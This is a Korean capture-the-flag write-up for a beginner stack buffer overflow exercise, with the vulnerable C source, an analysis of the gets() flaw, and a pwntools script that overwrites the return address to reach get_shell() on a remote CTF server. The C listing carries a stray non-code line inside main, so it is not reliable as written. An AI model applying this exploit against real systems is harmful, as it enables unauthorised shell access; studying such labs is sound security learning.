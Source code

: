 # bof_tutorial

> ### 소스코드를 분석하여 buffer overflow 방식으로 get_shell() 함수를 실행시켜 플래그를 얻어낼 수 있다. 


<hr>

# Solution 

- source code
```c
#include <stdio.h>
#include <stdlib.h>
void init( void )
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
void get_shell( void )
{
	system( "/bin/sh" );
}
int main( void )
{
	char buf[16];
	init();
	gets( buf );
	printf( "Your input is %s\n", buf );
	bof_tutorial guide 2
	return 0;
}
```
### 코드 분석

- 위의 소스 코드를 보면 `get_shell` 함수를 실행시키면 플래그를 얻을 수 있을 것 같은데 main 함수에는 `get_shell`함수를 실행하는 코드가 없다.
- 그리고 main 함수에는 입력을 받는 길이를 확인하지 않는 취약점을 가진 함수인 `gets` 함수가 있다.
- 스택 구조의 가장 밑(높은 주소)에있는 RET 영역은 다음에 실행할 명령어의 주소를 담고있다.
- 이 부분을 `get_shell` 함수의 주소로 덮으면 될 것 같다.
- 이 프로그램을 실행할 때 스택의 구조는 아래와 같다.
![스크린샷 2024-01-19 200142](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41){: width="60%" height="60%"}
- `gets()` 함수로 입력을 받을 때 쓰레기 값으로 (16+8) byte를 채우고 그 뒤에 `get_shell` 함수의 주소를 입력하자.
- `info func`  명령어를 사용하면 함수들의 정보를 확인 할 수 있다.
- 이를 통해 `get_shell` 함수의 주소가 `0x00000000004011b7` 임을 알 수 있다.
- 이제 위에서 알아낸 정보들을 바탕으로  exploit 코드를 작성하면 된다.
```python
# bof_exploit.py
from pwn import *
# process를 실행하기 위한 함수
# remote로 접속하려면 remote 함수를 사용해야함
r = remote( "ctf.keeper.or.kr", 1010 )
payload = b"A" * 24 # buf( 16 bytes ) + SFP( 8 bytes )
payload += p64( 0x40101a ) # system 함수 내부 구현 때문에 ret gad
payload += p64( 0x4011b7 ) # get_shell
# payload를 입력하기 위한 함수. 
# 끝에 '\n'까지 붙여주는 기능을 갖고 있음.
r.sendline( payload )
# shell을 획득하고 나서 직접적인 상호작용을 위한 함수
r.interactive()
```

### 코드 실행 결과
![스크린샷 2024-01-19 190946](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/5c224b8e-46dc-434d-91c7-d2421a999990)

